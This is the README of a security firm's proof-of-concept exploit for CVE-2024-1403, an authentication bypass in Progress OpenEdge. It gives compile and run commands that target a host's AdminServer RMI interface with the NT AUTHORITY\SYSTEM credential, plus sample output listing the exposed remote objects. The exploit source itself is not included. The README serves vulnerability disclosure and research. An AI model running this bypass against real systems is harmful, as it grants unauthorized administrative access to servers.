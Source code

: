 # CVE-2024-1403 Progress OpenEdge Authentication Bypass
An exploit proof of concept for Progress OpenEdge CVE-2024-1403.

## Blog Post
More details here:
[https://www.horizon3.ai/attack-research/cve-2024-1403-progress-openedge-authentication-bypass-deep-dive](https://www.horizon3.ai/attack-research/cve-2024-1403-progress-openedge-authentication-bypass-deep-dive)

## Usage
You must provide your own versions of the following jars:
- `progress.jar`
- `oeauth-12.8.-.jar`
- `osmetrics.jar`
- `juniper.jar`

### Compilation
```
$ javac -cp progress.jar:oeauth-12.8.0.jar Main.java

```
### Usage
Running this script will attempt to connect to the `AdminServer` RMI interface using the `NT AUTHORITY\SYSTEM` credential.
```
$ java -cp progress.jar:oeauth-12.8.0.jar:osmetrics.jar:juniper.jar:. Main <target_ip>
com.progress.system.SystemPlugIn
	com.progress.chimera.common.IChimeraRemoteObject
	com.progress.system.ISystemPlugIn

com.progress.agent.database.AgentPlugIn
	com.progress.chimera.common.IChimeraRemoteObject
	com.progress.agent.database.IAgentPlugIn

com.progress.ubroker.tools.NSRemoteObject
	com.progress.chimera.common.IChimeraHierarchy
	com.progress.ubroker.tools.IYodaRMI
	com.progress.ubroker.tools.IYodaSharedResources

com.progress.ubroker.tools.UBRemoteCommand
	com.progress.chimera.common.IChimeraRemoteCommand

com.progress.juniper.admin.JAPlugIn
	com.progress.chimera.common.IChimeraRemoteObject
	com.progress.juniper.admin.IJAPlugIn

com.progress.agent.smdatabase.SMPlugIn
	com.progress.chimera.common.IChimeraRemoteObject
```

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
